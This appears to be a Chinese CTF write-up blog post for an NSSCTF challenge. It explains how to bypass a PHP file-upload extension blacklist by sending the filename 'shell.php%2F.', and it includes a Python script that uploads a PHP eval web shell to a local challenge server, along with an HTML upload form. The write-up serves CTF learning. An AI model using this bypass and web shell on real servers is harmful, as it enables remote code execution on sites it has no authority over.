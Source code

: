 ```yaml
---
layout: post
title: NSSCTF 2周年
categories: [blog ]
tags: [CTF,]
description: "NSSCTF2周年比赛"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 

---
```


# NSSCTF 2周年

## php签到

```php
<?php

function waf($filename){
    $black_list = array("ph", "htaccess", "ini");
    $ext = pathinfo($filename, PATHINFO_EXTENSION);
    foreach ($black_list as $value) {
        if (stristr($ext, $value)){
            return false;
        }
    }
    return true;
}

if(isset($_FILES['file'])){//
    $filename = urldecode($_FILES['file']['name']);
    $content = file_get_contents($_FILES['file']['tmp_name']);
    if(waf($filename)){
        file_put_contents($filename, $content);
    } else {
        echo "Please re-upload";
    }
} else{
    highlight_file(__FILE__);
}
```

简单分析，可控的是上传文件的名称和内容。

流程就是，把上传文件的内容，然后输入到上传文件文件名里面，但是文件名解码了一次，并且限制了后缀 ph和二个配置文件。

所以思路就是绕过黑名单，PATHINFO只会找最后一个.后面的名字，比如

这里绕过是用了`/.`记得编码也就是`%2F.`这样`shell.php/.意思也是当前目录的shell.php

![](/img/Two/1.png)

解题方式：

1. 通过python脚本上传
2. 通过html前端（然后抓包上传）

```python
import requests
url="http://127.0.0.1/831.php"
shell="<?php eval($_POST['shell'];?>"
file={
    'file': ('shell.php%2F.',shell,'image/jpeg')
}
res=requests.post(url=url,files=file)
print(res.text)
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://127.0.0.1/831.php" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br><!--name要根据题目的源码来调节-->
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```

![](/img/Two/2.png)

![](/img/Two/3.png)